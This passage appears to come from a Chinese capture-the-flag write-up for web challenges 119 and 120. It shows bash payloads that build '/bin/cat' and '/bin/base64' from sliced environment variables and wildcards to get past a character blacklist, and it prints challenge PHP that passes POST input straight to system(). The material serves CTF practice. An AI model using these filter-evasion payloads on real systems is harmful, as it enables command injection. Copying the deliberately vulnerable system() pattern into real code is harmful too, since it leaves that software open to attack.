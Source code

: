 以此类推，最终将这些数字应用到切片中去，绕过对数字的过滤，构造出我们想要执行的命令。



#### Web119

先用上一题的payload打了一下，显示evil input

测了一下上题用的PATH被ban了

换个方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
相当于/???/??t ????.???
匹配/bin/cat ????.???
```

${#SHLVL}}=1

${PWD::${#SHLVL}} = /

${#HOSTNAME}=4    //用户名的位数，这里用户名是root，故为4



另一种方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
相当于/???/?????4 ????.??? 或者 /???/?????5 ????.???
想要匹配/bin/base64 ????.???
```
{#RANDOM} = 4或5

由于可能是5，所以要多试几次，还要进行base64解码



#### web120

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```
